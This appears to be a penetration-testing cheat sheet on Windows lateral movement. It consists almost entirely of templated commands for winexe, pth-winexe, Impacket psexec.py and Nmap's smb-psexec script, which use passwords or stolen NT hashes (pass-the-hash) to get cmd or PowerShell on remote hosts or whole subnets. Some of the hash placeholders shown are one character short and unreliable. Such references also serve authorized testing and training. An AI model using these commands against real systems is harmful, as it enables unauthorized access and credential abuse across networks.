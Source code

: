 # Unix Shell

Search Tag(s): #lateral-movement #psexec #impacket #windows

## Samba Suite Utils

`$ winexe -U <domain>/<username>%<password> //<IP> <cmd.exe | powershell.exe>`

- Pass the Hash

`$ pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<nt_hash> //<IP> <cmd.exe | powershell.exe>`

## Impacket

`$ psexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <LM>:<NT> [-codecs <codec>]

$ psexec.py <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ psexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>

$ psexec.py <domain_name>/<username>@<IP> -hashes :<NT>
```

## Nmap

```
$ nmap -p 445 -Pn --script smb-psexec 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>

$ sudo nmap -p U:137,T:139 -Pn -sUS --script smb-psexec 'smbuser=<username>,smbhash=<nt_hash>'
```
